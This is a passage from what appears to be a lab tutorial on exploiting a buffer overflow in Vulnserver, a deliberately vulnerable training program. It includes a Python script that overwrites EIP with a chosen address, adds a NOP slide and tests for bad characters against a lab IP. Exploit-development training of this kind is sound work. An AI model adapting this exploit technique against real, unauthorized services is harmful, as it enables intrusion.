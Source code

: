 &nbsp;
![image36]({{ site.baseurl }}/assets/images/36.png){:.images}
&nbsp;

After executing the above commands, navigating to the working directory (in my case c:\logs\vulnserver\\) we will open the **bytearray.txt** file, copy the array and insert it inside our python script we used at the beginning.

&nbsp;
![image37]({{ site.baseurl }}/assets/images/37.png){:.images}
&nbsp;

The modified script now contains the **Buffer Offset**, **NOP-slides**, **EIP address** and **Bad Characters**.
&nbsp;

```python
#!/usr/bin/python3
import socket, sys
from time import sleep

buffer = b"A"*2003
eip = b"\xaf\x11\x50\x62"
nops = b"\x90"*10

badchars = b""
badchars += b"MONA_BYTE_ARRAY"
badchars += b"MONA_BYTE_ARRAY"
badchars += b"MONA_BYTE_ARRAY"


print("[+] Sending the payload to the vulnerable application")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.0.52', 9999))
s.send((b'TRUN /.:/' + buffer + eip + nops + badchars))
s.close()
print("[+] Sent")

```

Let's execute it, make the application crash then locate if there are any other bad characters.
&nbsp;

&nbsp;
![image38]({{ site.baseurl }}/assets/images/38.png){:.images}
&nbsp;

&nbsp;
![image39]({{ site.baseurl }}/assets/images/39.png){:.images}
&nbsp;

&nbsp;
![image39.2]({{ site.baseurl }}/assets/images/39.2.png){:.images}
&nbsp;
